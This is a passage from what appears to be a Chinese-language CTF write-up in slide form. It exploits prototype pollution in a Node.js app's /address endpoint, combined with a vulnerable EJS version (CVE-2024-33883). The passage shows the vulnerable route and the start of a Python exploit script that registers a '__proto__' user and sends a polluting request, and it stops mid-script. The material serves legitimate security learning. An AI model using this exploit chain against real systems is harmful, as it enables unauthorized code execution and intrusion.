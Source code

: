   ```shell
  echo "$FLAG" > '/tmp/flag_'$(cat /dev/urandom | tr -cd 'a-f0-9' | head -c 32).txt
  ```

- Fuzz 一下发现触发类型错误的 `/address` 端点，代码长这样：

  ```js
  app.post("/address", (req, res) => {
    const { user } = req.session;
    const { addressId, Fulladdress } = req.body;
    if (user && users[user.username]) {
      addresses[user.username][addressId] = Fulladdress;
      users[user.username].address = addressId;
      res.redirect("/login");
    } else {
      res.redirect("/register");
    }
  });
  ```

---

#### 解题思路 2

- 注意到这行代码用用户输入的参数修改对象：

  ```js
  addresses[user.username][addressId] = Fulladdress;
  ```

- 容易想到可能存在原型污染漏洞。我们可以控制这些参数：

  - `/register` 端点：`username`
  - `/address` 端点：`addressId` 和 `FullAddress`

  所以就可以写成：

  ```js
  addresses["__proto__"]["<用户输入>"] = "<用户输入>";
  ```

- 检查 `package.json` 发现用了有漏洞的 Ejs 包版本（CVE-2024-33883）：

  ```json
  {
    "dependencies": {
      "ejs": "3.1.9"
    }
  }
  ```

---

#### 解题思路 3

- 整体攻击流程如下：

```python {all|8-9|11-14|16-21}{lines:true, maxHeight:'40%'}
import re
import requests

target_url = "<url>"

s = requests.Session()

# 注册原型污染专用账号
r = s.post(target_url + "/register", data={"username": "__proto__", "password": "asdf"})

# 污染原型链写入恶意函数
r = s.post(target_url + "/address", data={"addressId": "client", "Fulladdress": "1"})
```